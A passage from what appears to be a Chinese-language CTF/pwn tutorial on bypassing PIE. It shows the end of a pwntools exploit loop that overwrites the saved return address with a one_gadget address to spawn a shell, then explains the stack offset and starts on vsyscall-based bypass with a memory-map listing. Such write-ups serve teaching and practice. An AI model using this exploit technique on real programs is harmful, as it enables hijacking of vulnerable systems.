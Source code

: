 ```python
            if libc_addr == 0:
                p.close()
                continue
            question = p.recvuntil("=")[:-1]
            answer = str(eval(question))
            payload = answer.ljust(0x38,'\x00') + p64(one_gadget)   # 第二次是劫持RIP，所以偏移是0x38而不是0x30
            p.send(payload)
            p.recv(timeout=1)
            p.recv(timeout=1)
        except EOFError:
            p.close()
            continue
        else:
            p.interactive()
            break
```

值得注意的是虽然第一次修改了RBP的值，第二次写入pyload时，buf到retn的偏移确实固定的，因为buf是相对rbp而言的，所以在栈上buf到rbp的偏移是固定的即0x30，所以无论如何修改rbp，最后通过溢出劫持RIP时溢出偏移量都是固定值0x38

![Alt](img/bypass8.png)

## 使用vdso/vsyscall bypass PIE

在开启了ASLR的系统上运行PIE程序，就意味着所有的地址都是随机化的。然而在某些版本的系统中这个结论并不成立，原因是存在着一个神奇的vsyscall。(不过vsyscall在一部分发行版本中的内核已经被裁减掉了)

```s
    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    00e2f000-00e50000 rw-p 00000000 00:00 0                                  [heap]
    7f2f51279000-7f2f51c38000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7f2f51c38000-7f2f51df8000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51df8000-7f2f51ff8000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51ff8000-7f2f51ffc000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51ffc000-7f2f51ffe000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51ffe000-7f2f52002000 rw-p 00000000 00:00 0
    7f2f52002000-7f2f52028000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2f521e5000-7f2f5220a000 rw-p 00000000 00:00 0
```